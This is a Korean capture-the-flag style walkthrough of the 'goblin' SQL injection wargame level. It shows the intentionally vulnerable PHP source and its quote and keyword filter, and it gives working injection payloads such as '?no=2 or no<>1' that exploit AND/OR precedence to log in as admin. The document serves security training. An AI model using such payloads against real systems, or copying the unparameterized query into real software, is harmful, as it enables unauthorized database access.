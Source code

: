 # GOBLIN

## Problem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

## Inspection
* `if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");`
	- [RegExr](https://regexr.com/)로 분석.
	- **`'`, `"`, `` ` ``가 걸러진다.**
	- `/i`는 대소문자 구분이 없다는 뜻이다.
* `select id from prob_goblin where id='guest' and no={$_GET[no]}`
	- 파라미터로 `no`가 넘겨진다.
* `if($result['id'] == 'admin') solve("goblin");`
	- 쿼리문의 결과의 `id`가 `admin`이어야 통과한다.
* `?no=1`를 날려보니 `Hello guest`가 뜬다.
* `no`가 주요키라면 오름차순으로 수가 증가할 것이므로, `no=2`가 `admin`일 것이다.

## Solution
* `AND`, `OR` 연산자 우선순위의 차이를 이용한다.
	- `?no=2 or no=2` -> `select id from prob_goblin where id='guest' and no=2 or no=2`로 잘 통과한다.
	- `?no=2 or no<>1` -> `select id from prob_goblin where id='guest' and no=2 or no<>1`로 잘 통과한다.
	- `X and Y or Z`에서 `X and Y`의 결과를 거짓이 나오게 만들고, `Z`의 결과가 참이 나오게 만들어야 한다.